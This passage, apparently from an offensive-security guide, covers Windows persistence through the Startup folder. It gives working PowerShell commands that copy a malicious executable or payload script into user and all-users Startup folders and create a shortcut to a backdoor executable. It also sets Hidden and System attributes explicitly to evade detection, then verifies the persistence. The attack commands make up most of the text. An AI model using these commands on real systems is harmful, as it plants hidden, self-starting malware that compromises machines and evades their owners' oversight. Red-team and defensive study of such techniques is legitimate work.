 #### Dropping a Payload in the Startup Folder
If you have write access to the appropriate startup folder, you can drop a malicious executable or script that will be executed when the system starts or when a user logs in.
- Copy an Executable to the All Users' Startup Folder:
	```powershell
	Copy-Item "<path_to_executable>" "$env:ALLUSERSPROFILE\Microsoft\Windows\Start Menu\Programs\Startup\malicious_program.exe"
	```

This method places the executable in the startup folder, which ensures it runs whenever the target user or any user logs into the system.

#### Create a Shortcut for the All User's Startup Folder
Instead of placing the executable directly in the startup folder, you can create a shortcut (`.lnk` file) that points to the malicious executable. This allows for greater flexibility in pointing to external paths and makes the persistence method less obvious.
- Create a Shortcut for All Users:
	```powershell
	$WshShell = New-Object -ComObject WScript.Shell
	$StartupFolderAllUsers = $env:ALLUSERSPROFILE + "\Microsoft\Windows\Start Menu\Programs\Startup"
	$Shortcut = $WshShell.CreateShortcut("$StartupFolderAllUsers\system_backdoor.lnk")
	$Shortcut.TargetPath = "C:\Backdoor\backdoor.exe"
	$Shortcut.WorkingDirectory = "C:\Backdoor"
	$Shortcut.IconLocation = "C:\Backdoor\backdoor.ico"
	$Shortcut.Save()
	```

#### Hide Executable with Hidden Attributes
To further evade detection, the executable or shortcut file in the startup folder can be hidden using file attributes:
- Set Hidden and System File Attributes:
	```powershell
	$MaliciousFilePath = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\malicious_program.exe"
	Set-ItemProperty -Path $MaliciousFilePath -Name Attributes -Value ([System.IO.FileAttributes]::Hidden + [System.IO.FileAttributes]::System)
	```

#### Verifying Persistence
After placing the malicious executable or shortcut in the startup folder, you can verify that it will indeed execute on the next startup by listing the contents of the startup folder:
- List Items in the Startup Folder (All Users):
	```powershell
	Get-ChildItem "$env:ALLUSERSPROFILE\Microsoft\Windows\Start Menu\Programs\Startup"
	```

#### Additional Considerations
- Script Persistence: You can place PowerShell or batch scripts in the startup folder as well, which will execute automatically during startup. Example:
	```powershell
	Copy-Item "C:\path\to\payload.ps1" "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\malicious_script.ps1"
	```
